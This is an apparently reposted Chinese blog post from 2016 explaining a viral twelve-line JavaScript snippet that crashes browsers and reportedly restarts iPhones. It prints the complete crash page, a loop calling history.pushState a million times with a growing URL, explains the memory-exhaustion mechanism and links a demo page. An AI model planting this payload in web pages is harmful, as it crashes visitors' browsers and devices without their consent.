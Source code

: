 ```yaml
---
title: 十二行代码
date: 2016.03.02
tags: 
categories: 随笔
---
```


[![](http://upload-images.jianshu.io/upload_images/1171873-af3e0d49e43b2982.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](http://yamida.org/2016/01/29/%e5%8d%81%e4%ba%8c%e8%a1%8c%e4%bb%a3%e7%a0%81/)
#十二行代码
[2016年1月29日](http://yamida.org/2016/01/29/%e5%8d%81%e4%ba%8c%e8%a1%8c%e4%bb%a3%e7%a0%81/) / [芽蜜](http://yamida.org/author/rabbit/) / [0 COMMENTS](http://yamida.org/2016/01/29/%e5%8d%81%e4%ba%8c%e8%a1%8c%e4%bb%a3%e7%a0%81/#respond)

几天前在google+上看到这消息的。

事情的起因是这样的，国外一哥们Cyber Security在[推特](https://twitter.com/?lang=zh-cn)上发了这么一条推文：

这12行js代码能让手机或是电脑进入这网页后出现浏览器奔溃，假死……
1月17号，有人发推，说这段代码能让火狐、chrome、safari浏览器奔溃，能让iphone重启。
![](http://upload-images.jianshu.io/upload_images/1171873-3f0c591beeaeaa78.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
完整 HTML 代码如下：
 ```html
 <html>
   <body> 
     <script>  
       var total="";
       for (var i=0;i<1000000;i++){
         total= total+i.toString ();
         history.pushState (0,0,total); 
       }   
     </script>  
   </body> 
 </html>
```
来看下这段代码，主要就是
```javascript
total= total+i.toString();
history.pushState(0,0,total);
```

这两行代码执行1000000遍。
这段代码的核心真的就是 history.pushState() 方法。
这个方法是 HTML5 的一个 API，用于向history添加当前页面的记录。简单来说就是在不刷新页面，也不打开新页面的情况下，改变浏览器地址栏中的URL。这个技术可以解决AJAX遗留下来的问题。它和AJAX结合后，有个新的称呼是PJAX（淘宝目前正在使用）。
这里的代码：
 ```history.pushState(0, 0, total);```

只能起到一个效果，就是修改URL（只能修改当前目录后的字符，无法修改全部域名。且不会发生跳转或发送请求）。然后这里代码循环了1000000次，也就是说URL修改了1000000次，每次新的URL都是之前一次的后面再加上**i.toString()**
。这样快速不停地向history中添加记录，最终就会导致内存占用迅速增大到机器无法承受，然后浏览器崩溃。

当然那段脚本不运行的话是没问题的，比如用w3m。

演示：[www.0xroot.cn/demo.html](http://www.0xroot.cn/demo.html)（务必做好死机准备，尽管是假死。）
![要是我，肯定用while(1)……](http://upload-images.jianshu.io/upload_images/1171873-56935b81d8fe5d1c.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
